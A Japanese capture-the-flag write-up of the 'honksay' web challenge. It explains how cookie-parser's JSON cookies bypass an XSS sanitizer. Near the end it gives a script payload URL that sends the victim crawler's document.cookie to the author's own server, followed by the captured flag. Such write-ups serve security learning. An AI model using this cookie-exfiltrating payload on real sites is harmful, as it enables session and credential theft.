

# honksay:Web:50pts
Haha goose say funny thing  

[http://honksay.ctf.maplebacon.org/](http://honksay.ctf.maplebacon.org/)  

[honksay.tar.gz](honksay.tar.gz)  

# Solution
URLとソースコードが渡される。  
アクセスすると、アヒルと報告するフォームのみが見つかる。  
  
ソース(app.js)を見ると以下のようであった。  
```js
~~~
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
~~~
```
`/changehonk`でcookie経由でアヒルに何か喋らせられる。  
適当にscriptタグなどを打ち込むが、サニタイズされている挙動がみられる。  
ソースでは以下の部分であった。  
```js
~~~
const clean = require('xss');
~~~
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
~~~
```
フラグはクローラー(goose.js)のcookieなので、典型的なXSS問題だ。  
```js
~~~
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
~~~
```
サニタイズライブラリのバージョンを確認するも最新版で、`clean`をbypassするのは現実的でない。  
ここで以下に注目する。  
```js
~~~
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
~~~
```
`typeof(req.cookies.honk) === 'object'`がTrueであればサニタイズを回避できる。  
ここで`honksay.ctf.maplebacon.org/changehonk?newhonk[abc]=def`にアクセスすると、cookieが`j:{"abc":"def"}`をパーセントエンコーディングしたものになっていることに気づく。  
調査するとcookie-parserではJSON cookiesなるものをサポートしているようだ。  
`finalhonk.message`をレンダリングしているので、`j:{"message":"XSS Payload"}`が刺さる。  
クローラはlocalhostのcookieにフラグを設定しているので、Dockerfileなどでportを調べてやると`9988`とわかる。  
よって最終的なXSSを引き起こすURLは以下になる。  
```
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Elocation.href%3D%27https://[自身のサーバ]%2F%3Fs%3D%27%2Bdocument.cookie%3C%2Fscript%3E
```
これを報告し、自身のサーバで待ち受ける。  
```
GET
/?s=flag=maple{g00segoHONK}
```
flagを含むリクエストが届いた。  

## maple{g00segoHONK}